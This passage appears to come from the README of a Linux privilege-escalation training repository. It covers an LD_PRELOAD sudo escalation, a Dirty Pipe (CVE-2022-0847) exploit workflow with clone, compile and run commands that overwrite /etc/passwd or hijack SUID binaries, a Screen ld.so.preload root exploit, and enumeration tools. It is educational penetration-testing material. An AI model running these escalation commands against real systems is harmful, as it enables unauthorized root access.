 Compile and use with `sudo LD_PRELOAD=/tmp/escalate.so /usr/local/bin/sys_backup` (if `LD_PRELOAD` is kept by the sudoers entry).

## Dirty Pipe (CVE-2022-0847)

Dirty Pipe is a kernel vulnerability that allows unprivileged users to write to files they can read, affecting kernels 5.8+ up to 5.15.25. Exploits allow modification of `/etc/passwd` or dropping SUID shells. Use publicly available PoCs carefully and only on systems you are authorized to test.

Typical workflow:

```
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
./exploit-1  # may modify /etc/passwd or spawn shell
./exploit-2 /usr/bin/su  # hijack SUID binary
```

## Vulnerable Services and Known Exploits

Services like Screen, Exim, Samba, and others have had local privilege escalation bugs. Identify service versions (e.g., `screen -v`) and search Exploit-DB or vendor advisories for available PoCs.

### Screen example

Screen 4.05.00 has a local root exploit that can be used to overwrite `/etc/ld.so.preload` and escalate.

Proof-of-concept steps generally involve creating a malicious shared library and a rootshell, using screen to write to `/etc/ld.so.preload`, and obtaining a root shell.

## Tools and Resources

Enumeration tools that speed up discovery (use responsibly):

- LinPEAS: https://github.com/carlospolop/PEASS-ng
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enum
- Metasploit Framework Linux Exploit Suggester

Exploit databases and references:

- Exploit-DB: https://www.exploit-db.com/
- GTFOBins: https://gtfobins.github.io/

## Final Notes

Privilege escalation requires careful enumeration, an understanding of Linux internals, and caution when running exploits (risk of system instability). Always test on authorized targets or lab environments.

Practice with the included labs and tools in this repository to become comfortable identifying and exploiting misconfigurations and vulnerabilities responsibly.



